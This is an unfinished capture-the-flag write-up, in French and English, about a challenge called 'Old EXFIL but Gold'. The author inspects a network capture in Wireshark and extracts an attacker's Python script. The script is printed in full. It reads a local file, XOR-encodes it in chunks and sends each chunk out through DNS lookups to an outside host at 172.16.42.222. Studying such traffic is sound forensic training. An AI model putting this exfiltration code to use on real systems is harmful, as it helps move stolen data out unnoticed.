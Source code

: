 # Old EXFIL but Gold

### SUBJECT

Nous soupçonnons une exfiltration de données.  
Nous avons capturé des données réseaux, à vous d'extraire le lien pour la prochaine étape !

We suspect data exfiltration.  
We have captured network data, it's up to you to extract the link for the next step !

### EXPLORING THE .PCAP
On the challenge page, we download a `.pcap` file.  
First reflex, open it in Wireshark in order to inspect its content.  

![ch02 Wireshark](/images/ch02-wireshark.png)

This file contains a record of network frames at a certain time.  
We can quickly isolate 3 different protocols:  
- TCP
- HTTP
- DNS

These protocols will be useful for us because their functions and uses allow certain processes that we will discover later.  

The HTTP packets being in clear, we filter them and analyze their contents.  

![ch02 http filter](/images/ch02-httpfilter.png)

We can observe that in the infos, there are two requests of type `GET` sending from the source and two positive answers of the destination.  
The first request ask for the page `/index.html`, constituted as below (after extracting the source code contained in clear in the request):

> Code

![ch02 index.html code](/images/ch02-indexhtmlraw.png)

> Rendering

![ch02 index.html](/images/ch02-indexhtml)

Given the following request, we can imagine that the attacker then downloaded the `dnstunnel.py` file.  
The advantage of HTTP being for us that the request is in clear, we have the possibility of seeing the content of this file and therefore the source code.  

![ch02 python code](/images/ch02-pythoncode.png)

We extract it and paste it into our favorite IDE to inspect the code and continue our journey.  

### READING AND UNDERSTANDING CODE

Here is the code we have in our hands :  

```python
#!/usr/bin/python3 
# I have no idea of what I'm doing 
 
#Because why not! 
import random 
import os 
 
f = open('data.txt','rb') 
data = f.read() 
f.close()

print("[+] Sending %d bytes of data" % len(data)) 

#This is propa codaz 
print("[+] Cut in pieces ... ") 

def encrypt(l): 
    #High quality cryptographer! 
    key = random.randint(13,254) 
    output = hex(key)[2:].zfill(2)
    for i in range(len(l)): 
        aes = ord(l[i]) ^ key 
        #my computer teacher hates me 
        output += hex(aes)[2:].zfill(2) 
    return output 

def udp_secure_tunneling(my_secure_data): 
    #Gee, I'm so bad at coding 
    #if 0: 
    mycmd = "host -t A %s.local.tux 172.16.42.222" % my_secure_data 
    os.system(mycmd) 
    #We loose packet sometimes? 
    os.system("sleep 1") 
    #end if 

def send_data(s): 
    #because I love globals 
    global n 
    n = n+1 
    length = random.randint(4,11) 
    # If we send more bytes we can recover if we loose some packets? 
    redundancy = random.randint(2,16) 
    chunk = data[s:s+length+redundancy].decode("utf-8") 
    chunk = "%04d%s"%(s,chunk) 
    print("%04d packet --> %s.local.tux" % (n,chunk)) 
    blob = encrypt(chunk) 
    udp_secure_tunneling(blob) 
    return s + length 
 
cursor = 0 
n=0 
while cursor<len(data): 
    cursor = send_data(cursor) 
 
#Is it ok? 
```

_Continued write-up tomorrow, 'going to sleep.._

